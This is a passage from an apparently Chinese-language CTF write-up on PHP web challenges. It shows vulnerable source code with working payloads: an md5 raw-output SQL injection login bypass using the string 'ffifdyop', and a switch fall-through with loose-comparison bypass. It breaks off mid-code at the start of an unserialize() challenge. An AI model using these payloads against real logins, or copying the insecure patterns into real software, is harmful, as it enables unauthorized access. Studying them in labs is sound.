 **思路分析**

- 关键代码:
```php
$sql = "SELECT * FROM users WHERE password = '".md5($password,true)."'";
```
- md5($password,true)会将md5后的hex转换为字符串 
- 有如下一个字符串`ffifdyop`,md5后为276f722736c95d99e921722cf9ed621c，hex转换为字符串为:`'or'6<trash>`,从而达到万能密码的效果。

- payload:`?password=ffifdyop`

## switch没有break字符与0比较绕过

**部分源码**

```php
<?php
error_reporting(0);
if (isset($_GET['which']))
{
    $which = $_GET['which'];
    switch ($which)
    {
    case 0:
    case 1:
    case 2:
        require_once $which.'.php';
         echo $flag;
        break;
    default:
        echo GWF_HTML::error('PHP-0817', 'Hacker NoNoNo!', false);
        break;
    }
}
?>
```

**思路分析**

- 考点:switch特性与弱类型比较
- switch比较，case 0与case 1都没有break，因此匹配到0与1时，匹配成功并不会退出switch，会继续向下执行，直至遇到break为止。
- PHP中非数字开头字符串和数字 0比较==都返回True，传入flag可令其在switch中匹配到case 0

payload如下:
```
?which=flag
```

## unserialize()序列化

**部分源码**

```php
<!-- index.php -->
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>

<!-- shield.php -->

<?php
```